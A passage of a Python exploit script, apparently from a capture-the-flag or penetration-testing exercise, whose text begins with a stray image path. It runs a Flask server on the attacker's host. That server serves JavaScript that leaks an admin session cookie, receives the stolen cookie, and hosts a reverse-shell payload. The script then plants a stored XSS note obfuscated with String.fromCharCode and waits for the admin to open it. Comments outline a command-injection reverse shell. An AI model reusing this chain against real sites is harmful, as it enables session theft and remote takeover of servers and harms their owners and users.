 @app.route('/x.js', methods=['GET'])
def xjs():
    print("[*] Sending JavaScript to leak the admin session cookie")
    return flask.Response(XJS, mimetype='application/javascript')

@app.route('/rs', methods=['GET'])
def rs():
    print("[*] Sending reverse shell payload")
    return flask.Response(RS, mimetype='application/octet-stream')

@app.route('/leak', methods=['GET'])
def leak():
    global cookieValue, wsLock
    b = base64.b64decode(flask.request.url.split("leak?x=")[1])
    m = re.search("""name=\"cookie\" value=\"connect.sid&#x3D;(.*?)\">""",str(b)) #Search base64 decoded string
    cookieValue = m.group(1)
    print("[*] Admin session cookie leaked: " + cookieValue)

    #Let the main thread know that we have succesfully captured the admin session cookie
    wsLock.release()

    return flask.Response("OK")

def startFlask():
    app.run(host=LHOST, port=80)

#Start the web server to serve x.js and leak the admin's session cookie. We use the 'logging' and 'click' module to make it silent
log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)
click.echo = lambda a, *args, **styles : None
click.secho = lambda a, *args, **styles : None
thread2 = threading.Thread(target=startFlask)
thread2.start()

#Send an evil note that will request x.js from the web server
print("[*] Sending XSS payload")
payload = """document.write('<script src="http://"""+LHOST+"""/x.js"></script>')"""
nums = [str(ord(i)) for i in payload]
payload = '<img src="x/><script>eval(String.fromCharCode('+','.join(nums)+'));</script>">'
data = {"uuid":bookingID,"body":payload}
r = requests.post(URLBASE+"agent/addNote", headers=headers, data=data)

#Wait for the admin session cookie before proceeding
print("[*] Waiting for the admin user to visit the infected note")
wsLock.acquire()
headers['Cookie'] = cookieName+"="+cookieValue

# executeRevShell - Executes a reverse shell on the target by abusing the command injection vulnerability
# Params:
#   urlbase - The URL of the target to compromise
#   wsIP - IP of the webserver which hosts the reverse shell payload "rs"
#   mutex - A mutex to acquire before exploiting the target